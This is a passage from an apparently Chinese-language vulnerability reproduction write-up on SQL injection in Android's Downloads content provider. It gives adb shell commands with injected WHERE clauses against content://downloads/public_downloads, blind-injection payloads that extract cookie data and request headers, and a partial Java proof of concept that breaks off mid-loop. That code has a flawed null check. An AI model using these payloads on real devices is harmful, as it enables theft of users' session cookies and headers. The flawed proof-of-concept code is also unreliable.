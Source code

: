    
  
总结：  
```
不需要权限：
content://downloads/public_downloads/#
需要权限android.permission.INTERNET：
content://downloads/my_downloads/
content://downloads/my_downloads/#
content://downloads/download/
content://downloads/download/#
```  
  
  
因此我们可以构造相关的sql注入语句：  
```
  adb shell content query --uri content://downloads/public_downloads/0 -- where "1=1) OR (1=1"
```  
  
  
这里需要从Google Chrome下载任何文件（即PDF文件）或从Gmail下载任何附件，确保提供程序包含一些数据，然后使用该语句。  
  
   
  
由于底层SQLiteQueryBuilder中强制使用严格模式，无法实现基于UNION语句的直接注入，但可以通过利用盲SQL注入提取所有信息：  
```
adb shell content query --uri content://downloads/public_downloads/0 -- where "1=1) AND (_id=1 AND cookiedata LIKE 'a%') OR (1=1"
```  
  
  
  
也可以从request_headers表转储所有内容：  
```
adb shell content query --uri content://downloads/public_downloads/0 -- where "1=1) AND (SELECT header FROM request_headers WHERE _id=1) LIKE 'a%' OR (1=1"
```  
  
  
还可以使用盲SQL注入（如果启用此选项，则过程将稍微慢一些）来包含受限列，如UID、ETAG或CookieData  
  
#### （2）漏洞复现  
  
首先我们需要从google上下载一些数据：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GHY6YqkqNrVDDwnUD84eyjk5ITwfmiauGI5pic76qVdYHDwCLkyWHogvVKXrx4JJadaQukgCmsgnog/640?wx_fmt=png "")  
  
这里没有合适的案例，就不进行演示了。  
  
   
  
然后我们编写Poc:  
```
private void dump(boolean dumpProtectedColumns) {
       ContentResolver res = getContentResolver();
       Uri uri = Uri.parse("content://downloads/public_downloads/#");
       Cursor cur = null;
       Log.e("WindXaa","ERROR: The device does not appear to be vulnerable1");
       try {
           //这里可以替换我们的sql注入构造语句
           cur = res.query(uri, null, "1=1) OR (1=1", null, null);
       } catch (IllegalArgumentException e) {
           Log.e("WindXaa", "Error", e);
           Log.e("WindXaa","ERROR: The device does not appear to be vulnerable");
           //return;
       }
 
       try {
           if (cur != null || cur.getCount() > 0) {
               // Iterate all results and display some fields for each row from the downloads database
               while (cur.moveToNext()) {
                   int rowId = cur.getInt(cur.getColumnIndex("_id"));
                   String rowData = cur.getString(cur.getColumnIndex("_data"));
```